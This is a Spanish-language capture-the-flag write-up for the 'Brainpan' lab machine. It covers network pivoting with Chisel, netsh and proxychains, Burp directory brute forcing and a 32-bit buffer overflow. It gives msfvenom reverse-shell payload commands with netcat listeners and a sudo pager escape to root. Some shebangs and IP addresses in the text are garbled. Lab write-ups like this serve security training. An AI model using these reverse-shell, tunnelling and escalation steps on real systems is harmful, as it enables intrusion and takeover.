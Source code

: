 ```yaml
---
title: "6. Brainpan"
description: "Detalla el pivoting con Chisel y netsh, enumeración web con Burp Suite para fuerza bruta de directorios, análisis de binario con Immunity Debugger para explotación por Buffer Overflow (x32) y escalada de privilegios en Linux mediante abuso de sudo."
pubDate: 2025-05-20
---
```


[5. Matrix 1](../5-matrix-1)

# Fase de reconocimiento

## Buscamos hosts en la red

Buscaremos host en red con un script en bash, usando vi

````
#!\dev
ull

for i in $(seq 1 254); do
		timeout 1 bash -c "ping -c 10.10.0.$i" &>/dev/null && echo "[+] Host 10.0.0.$i - ACTIVE" &
		
done; wait
````

(Si no acepta traza icmp⬇ )

````
#!\dev
ull

for i in $(seq 1 254); do
		for port in 21 22 80 443 445 8080; do
				timeout 1 bash -c "echo '' > /dev/tcp/10.10.0.$i/$port" &>/dev/null && echo "[+] Host 10.0.0.$i - ACTIVE - PORT $port" &
		done
		
done; wait
````

## Pivoting con Chisel

https://github.com/jpillora/chisel
Chisel creará un tunnel entre el chisel servidor y el/los cliente/s trayendo puertos.
Para poder utilizar la maquina atacante todo el rato.

1. Copiamos chisel en la maquina Aragog

````
scp chisel root@<ip5>:/tmp/chisel
````

2. Nos conectamos al servidor

````
./chisel client <ip4>:8787 R:5522:socks
````

Esto abrirá un tunel por la 5522 con la red del cliente
4. Con netsh (Windows) en Dumbledore lo redirigimos a Nagini

````
netsh interface portproxy add v4tov4 listenport=8787 listenaddress:0.0.0.0 connectport=8788 connectaddress=<ip2>
````

Esto abrirá un túnel por la 9999 con la red del cliente
5. Con el proxy "proxychains" configuramos el archivo "proxychains.conf"

````
# strict_chain
Deshasteamos dynamic_chain
add abajo:
    socks5 127.0.0.1 5522
	socks5 127.0.0.1 9999
	socks5 127.0.0.1 8888
	socks5 127.0.0.1 1080
````

Ahora para ejeuctar comandos en 'ip5' con proxycahins -comando-

## Buscar puertos

````
proxychains nmap -sT -Pn --top-ports 500 -open -T5 -v -n <ip6> 2>/dev/null
````

Buscaremos puertos con la ayuda de xargs para agilizar el escaneo

````
seq 1 65535 | xargs -P 500 -I {} proxychains nmap -sT -Pn -p{} -open -T5 -v -n <ip6> 2>&1 | grep "tcp open"
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240425011947.png)

## FoxyProxy

Para poder ver la web añadimos un proxy en el navegador con FoxyProxy con el puerto 5522

## whatweb

````
proxychains whatweb http://<ip6>:10000
````

## Burpsuite para fuerza bruta

### Configuración de proxy

Añadimos la proxy 5522
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240425012723.png)

## Enumerar directorios por fuerza bruta

1. Interceptamos la web
1. Con el Intruder añadimos en el directorio donde queremos aplicar fuerza bruta
   ![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240425013330.png)
1. Configuramos el Payload con el diccionario:
   /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
1. Start attack
   ![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240425013521.png)

Este directorio contiene un binario con el programa que utiliza el puerto 9999

Para ver el programa del puerto 9999:

````
proxychains nc <ip6> 9999
````

# Fase de ataque

## Buffer Overflow

Como es un binario de 32 bits lo debbugearemos con Windows 7 23 bits

1. Nos compartimos el binario al Windows 7

````
python3 -m http.server 80
````

2. Lo ejecutamos y aceptamos todo
2. Nos descargamos e instalamos en Windows Immunity Debugger https://www.immunityinc.com/products/debugger/ y registramos el binario
2. Conectamos al servicio

````
nc <ipwin> 9999
````

Al enviar una cantidad de "A" elevada el programa explota, por lo que nos podemos aprovechar para un buffer overflow

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240425210111.png)
5. Creamos un patrón para localizar donde explota el programa quedándose en el EIP

````
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240425210538.png)
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240425210554.png)
6. Buscamos el número del EIP para buscar la cantidad de "A" necesarias para sobrescribir el EIP

````
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x35724134
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240425210816.png)
La cantidad son 524
7. Podemos observar que el ESP es la continuación del EIP
8. Con "miona" detectamos que el x00 es un bad chart, lo quitamos
9. Creamos un exploit para conseguir ejecutar el codigo para una revershell
1. Creamos el shellcode

````
msfvenom -p windows/shell_reverse_tcp LHOST=<ip6> LPORT=443 --platform windows -a x86 -e x86/shikata_ga_nai -f c -b "\x00" EXITFUNC=thread 
````

    2. Creamos el script
    

\*\*![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240425215746.png)
10. Con socat preparamos para redirigir el trafico
11. Nos ponemos en escucha

````
rlwrap nc -nlvp 443
````

12. Lanzamos el exploit

````
proxychains python3 exploit.py
````

\[-\] ==pwned!==

# Privilege Escalation

1. Creamos otro exploit pero para Linux ya que tiene un subsistema Linux dentro del Windows
   1. Creamos el shellcode

````
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<ip6> LPORT=443 -f c -b "\x00" EXITFUNC=thread 
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240425220603.png)
2. Nos ponemos en escucha

````
rlwrap nc -nlvp 443
````

3. Lanzamos el exploit

````
proxychains python3 exploit.py
````

Colocamos la terminal

## Hacerse root

Miramos privilegios

````
sudo -l
````

Tenemos un comando que al lanzarlo contiene un manual
Lanzamos el manual y se lanza en modo paginated
Escribimos !/bin/bash
\[+\] ==pwned!==

# Técnicas Utilizadas

Web Enumeration - BurpSuite Intruder Attack (Due to certain timeout problems using multiple proxies)
EXE Binary Analysis - Immunity Debugger (Buffer Overflow x32 Stack Based)
EXTRA: Playing with netsh to control connection flow in Windows
EXTRA: Reverse shell going through 4 machines using 4 SOCKS proxies
